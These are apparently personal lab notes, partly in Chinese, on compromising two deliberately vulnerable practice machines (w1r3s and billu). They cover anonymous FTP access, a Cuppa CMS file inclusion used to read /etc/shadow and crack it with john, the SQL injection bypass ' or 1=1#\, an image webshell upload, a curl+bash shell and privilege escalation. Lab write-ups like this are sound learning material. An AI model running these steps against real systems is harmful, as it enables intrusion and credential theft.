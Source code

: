 
### w1r3s
ip:
`192.168.36.129`

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231025134356.png)

#### user
- 21 ftp
#ftp 匿名登录
```bash
ftp <IP>
>anonymous
>anonymous
>ls -a # List all files (even hidden) (yes, they could be hidden)
>binary #Set transmission to binary instead of ascii
>ascii #Set transmission to ascii instead of binary
>bye #exit
```

下载所有文件

```bash
wget -m ftp://anonymous:anonymous@10.10.10.98 #Donwload all
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98 #Download all
```

- 80
扫描得到目录
/administrator
访问查看源码发现是cuppa cms
`searchexploit cuppa`
存在任意文件包含漏洞,读取/etc/shadow,`john`爆破密码,登录用户属于sodu组,直接sudo bash




### billu
`192.168.36.130`
#### user
- 22

- 80
目录扫描
`gobuster dir -u http://192.168.36.130 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231107133729.png)

其中test存在任意文件读取,读取网站源码,存在sql注入

```php
<?php
$pass="' or 1=1#\\";
$uname="admin";

$uname=str_replace('\'','',$uname);
    $pass=str_replace('\'','',$pass);

$run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
echo($run);

//

```
大体过滤,直接万能密码 `' or 1=1#\`

存在文件上传+文件包含,上传图片马
弹shell出了点问题,选择curl+bash
```python
from http.server import HTTPServer, BaseHTTPRequestHandler

# 创建自定义的请求处理类
class MyRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        # 设置响应状态码
        self.send_response(200)
        # 设置响应头部
        self.send_header('Content-type', 'text/html')
        self.end_headers()
        # 设置响应内容
        response_content = b"Hello, World!"  # 以字节形式返回内容
        self.wfile.write(response_content)

# 创建HTTP服务器实例，并指定请求处理类
port=80
server_address = ('', port)  # 指定服务器地址和端口
httpd = HTTPServer(server_address, MyRequestHandler)
print('Server running at http://localhost:'+str(port))
httpd.serve_forever()
```

拿到shell,存在phpmy目录
里面的`config.inc.php`有root密码
也可内核提权

